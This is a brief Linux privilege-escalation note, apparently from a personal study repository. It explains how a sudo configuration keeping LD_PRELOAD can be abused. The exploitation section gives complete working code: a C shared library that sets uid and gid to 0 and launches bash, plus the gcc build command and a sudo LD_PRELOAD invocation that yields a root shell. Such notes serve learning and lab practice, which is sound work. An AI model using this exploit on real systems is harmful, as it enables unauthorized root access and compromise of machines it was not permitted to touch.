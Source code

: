 LD= dynamic linker
this means that the shared libraries are loaded first and to exploit first we have to create a custom malicious library  
How to understand the vulnerability
`env_keep=LD_PRELOAD` is enables this means it is vulnerable to LD_PREALOAD
 
![](/Linux-Privilege-Notes/images/sudo%20-l.png)

Exploitation 
create a file called shell.c
with code

" 
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}


compile it the command 
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
this will generate a .so file -> shell.so (in our case )

run the file with binaries/files with have root permissions to work with 

`sudo LD_PRELOAD=/home/user/shell.so apache2`

"

![](/images/sudo%20ld_preload.png)
